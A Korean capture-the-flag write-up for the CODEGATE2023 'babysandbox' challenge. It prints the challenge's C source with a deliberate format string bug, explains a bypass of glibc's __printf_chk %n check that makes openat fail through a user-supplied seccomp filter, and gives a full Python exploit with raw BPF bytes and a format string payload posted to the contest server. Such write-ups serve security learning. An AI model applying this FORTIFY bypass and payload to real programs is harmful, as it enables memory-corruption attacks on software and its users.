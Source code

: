 ```yaml
---
layout: post
date: 2023-06-18
title: CODEGATE2023 Quals babysandbox write-up
tags: [pwnable, seccomp, FSB, ]
categories: [CTF, CODEGATE2023, ]
---
```


## 문제 분석


---


```c
// gcc box.c -o box -no-pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>

#define FLAG_PATH "/flag"

int install_seccomp(uint8_t *filt, unsigned short len);
void vuln();
void read_flag();

uint32_t target = 0xdead;

int main(int argc, char **argv) {
    uint32_t filt_len;

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    read(0, &filt_len, sizeof(uint32_t));
    if (filt_len > 0x200) {
        __printf_chk(1, "Too much T_T\n");
        return 1;
    }
    uint8_t *filt =  (unsigned char *)calloc(sizeof(uint8_t), filt_len);
    int res = read(0, filt, filt_len);
    if (res != filt_len) {
        __printf_chk(1, "Cannot read enough T_T\n");
        return 1;
    }

    if (install_seccomp(filt, (unsigned short)filt_len))
        return 1;

    vuln();

    return 0;
}

int install_seccomp(unsigned char *filt, unsigned short filt_len) {
    struct prog {
        unsigned short len;
        unsigned char *filt;
    } rule = {
        .len = filt_len >> 3,
        .filt = filt
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) < 0) {
        __printf_chk(1, "Failed to prctl(PR_SET_NO_NEW_PRIVS) T_T\n");
         return 1;
    }
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &rule) < 0) { 
        __printf_chk(1, "Failed to prctl(PR_SET_SECCOMP) T_T\n");
         return 1;
    }
    return 0;
}

void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}

void read_flag() {
    int fd = open(FLAG_PATH, O_RDONLY);
    char flag_buf[0x100];

    if (fd < 0) {
        __printf_chk(1, "Failed to open flag, contact admin please T_T\n");
        exit(1);
    }

    memset(flag_buf, 0, sizeof(flag_buf));
    int res = read(fd, flag_buf, sizeof(flag_buf));

    if (res < 0) {
        __printf_chk(1, "Failed to read flag, contact admin please T_T\n");
        exit(1);        
    }
    close(fd);
    write(1, flag_buf, res);

    return;
}
```


입력 받은 seccomp 필터를 바이너리에 적용한 후에 FSB를 트리거 할 수 있게 해준다.


target을 0x1337로 변조하면 플래그를 출력해주지만, `printf_chk` 함수는 `%n`을 사용하지 못한다.


<br>


그러나 read-only 영역에서는 `%n`을 사용할 수 있으며, glibc에서는 `/proc/self/maps`를 열어 read-only 영역인지 판단한다.


<br>


`__readonly_area` 함수에서는 해당 포인터가 read-only 영역인지 확인한다. 하지만 fopen에 실패했을 경우 에러코드를 통해 해당 영역이 read-only 영역에 해당하는 지를 반환한다. 


```c
int
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
.
.
```


{: file='sysdeps/unix/sysv/linux/readonly-area.c'}


<br>


seccomp를 통해 `openat` 시스템콜을 막고 원하는 에러코드를 반환하도록 설정할 수 있다.


한가지 주의해야할 점은 flag 파일을 읽어들일 때도 `openat` 시스템콜을 사용하므로 인자로 플래그 파일명 포인터가 넘어왔을 때는 허용해주었다.


또한 `openat` 시스템콜은 rsi를 파일명 포인터로 받으므로 `A = args[1]`로 설정해주어야 한다.


```ruby
A = sys_number
A != openat ? ok : next
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(2)
ok:
return ALLOW
```


이제 `%n`을 사용할 수 있으므로 FSB를 통해 값을 변조하면 된다.


## 익스플로잇


---


```python
import requests
import base64 
from pwn import*

send_payload:list[bytes] = []

bpf = b"\x20\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00\x20\x00\x00\x00\x18\x00\x00\x00\x54\x00\x00\x00\xff\x00\x00\x00\x15\x00\x01\x00\x47\x00\x00\x00\x06\x00\x00\x00\x02\x00\x05\x00\x06\x00\x00\x00\x00\x00\xff\x7f"
send_payload.append(p32(len(bpf)))
send_payload.append(bytes(bpf))


payload = b''
payload += b'%' + b'4856' + b'c' # 0x1337
payload += b'%d%d%d%d%d%d%d%d%d%n'
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(0x404088)
send_payload.append(payload)

result_payload = b''.join(send_payload)

res = requests.post('http://15.164.245.40:1400/', data={'payload':base64.b64encode(result_payload)})

print(res.text)
```


## 레퍼런스


---


[https://0xacb.com/2017/11/19/hxp-flag-store/](https://0xacb.com/2017/11/19/hxp-flag-store/)

